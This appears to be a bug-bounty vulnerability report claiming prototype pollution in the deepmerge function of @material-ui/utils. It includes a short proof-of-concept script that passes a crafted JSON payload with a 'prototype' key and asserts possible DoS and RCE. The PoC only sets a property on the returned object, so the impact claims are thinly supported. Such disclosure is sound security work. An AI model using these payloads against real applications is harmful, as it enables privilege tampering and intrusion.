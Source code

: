 ## ✍️ Description
material-ui package is vulnerable to prototype pollution issue 
file can be found in  https://github.com/mui-org/material-ui/blob/next/packages/material-ui-utils/src/deepmerge.ts
## 🕵️‍♂️ Proof of Concept 
1. Creating poc file namely poc.js
var utils = require('@material-ui/utils');
var src = {};
let object = utils.deepmerge({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'), {
    clone: false,
});
console.log(object.prototype.isAdmin);
2. Execute command npm install @material-ui/utils
3. Execute command node poc.js
*[POC] https://drive.google.com/file/d/1twz_btDed0aeQVEO8BBAVs4Vg8kWjcxV/view?usp=sharing
## 💥 Impact
Prototype pollution which could lead to DOS and RCE
## ✅ Checklist
- [x] _Created and populated the README.md and vulnerability.json files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_


